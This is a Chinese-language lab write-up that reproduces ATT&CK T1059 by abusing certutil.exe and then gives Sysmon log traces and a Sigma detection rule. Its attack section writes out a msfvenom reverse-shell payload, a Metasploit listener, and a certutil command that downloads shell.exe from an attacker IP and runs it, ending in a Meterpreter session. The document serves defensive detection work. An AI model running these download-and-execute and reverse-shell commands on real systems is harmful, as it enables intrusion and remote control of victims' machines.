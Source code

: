 # T1059-win-基于白名单Certutil.exe执行Payload

## 来自ATT&CK的描述

暂无合适分类，置放在此TID中

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Certutil.exe是作为证书服务的一部分安装的命令行程序。 我们可以使用此工具在目标计算机上执行恶意EXE文件，并获取meterpreter会话。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon）

### 攻击分析

#### 生成payload.exe

通过msfvenom 生成恶意可执行文件，并使用start multi/handler获取目标计算机反向shell会话。

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.126.146 lport=1234 -f exe > shell.exe
```

#### 执行监听

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 1234
lport => 1234
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:1234

```

#### 开启小型http服务

```bash
root@12306Br0:~# python2 -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

#### 靶机执行payload

```dos
certutil.exe -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe & shell.exe
```

#### 反弹shell

```bash
[*] Started reverse TCP handler on 192.168.126.146:1234
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:1234 -> 192.168.126.149:49172) at 2020-04-17 15:59:50 +0800
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\certutil.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: CertUtil.exe
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: CertUtil.exe
CommandLine: certutil.exe  -urlcache -split -f http://192.168.126.146:1234/shell.exe shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID:0xbcc
新进程名: C:\Windows\System32\certutil.exe

#windows server 2008(不含2008)以上系统可以配置审核进程创建策略，达到记录命令行参数的效果。通过命令行参数进行监控分析。
```

## 检测规则/思路

### sigma规则

```yml
title: 可疑的Certutil命令
status: experimental
description: 使用诸如“decode”子命令之类的子命令检测可疑的Microsoft certutil执行，该子命令有时用于使用内置的certutil实用程序
references:
    - https://twitter.com/JohnLaTwC/status/835149808817991680
    - https://twitter.com/subTee/status/888102593838362624
    - https://twitter.com/subTee/status/888071631528235010
    - https://blogs.technet.microsoft.com/pki/2006/11/30/basic-crl-checking-with-certutil/
    - https://www.trustedsec.com/2017/07/new-tool-release-nps_payload/
    - https://twitter.com/egre55/status/1087685529016193025
    - https://lolbas-project.github.io/lolbas/Binaries/Certutil/
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine:
            - '* -decode *'
            - '* /decode *'
            - '* -decodehex *'
            - '* /decodehex *'
            - '* -urlcache *'
            - '* /urlcache *'
            - '* -verifyctl *'
            - '* /verifyctl *'
            - '* -encode *'
            - '* /encode *'
            - '*certutil* -URL*'
            - '*certutil* /URL*'
            - '*certutil* -ping*'
            - '*certutil* /ping*'
    condition: selection
fields:
    - CommandLine
    - ParentCommandLine
tags:
    - attack.defense_evasion
    - attack.t1140
    - attack.t1105
    - attack.t1059
    - attack.s0189
    - attack.g0007
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
level: high

```

### 建议

根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略Sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>
